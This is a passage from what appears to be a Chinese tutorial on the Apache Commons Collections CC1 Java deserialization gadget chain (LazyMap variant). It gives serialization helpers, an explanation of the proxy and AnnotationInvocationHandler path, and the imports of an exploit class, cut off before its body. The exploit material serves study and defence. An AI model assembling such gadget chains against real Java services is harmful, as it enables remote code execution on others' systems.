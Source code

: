 ```plain

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

### EXP(CC1LazyMap):

在调用`tranforms`方法时候，除了能利用`Transformedmap`来进行调用，还可以通过使用`Lazymap`中的 get 方法来进行调用，然后再从`annotationInvocationHandler`的`invoke`方法中调用`Lazymap`中的`get`方法，再通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法：

[![](assets/1701612311-ff087328cb43fbc08bca2aae6e789dab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235204-0c0f8ce4-20cc-1.png)

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{

```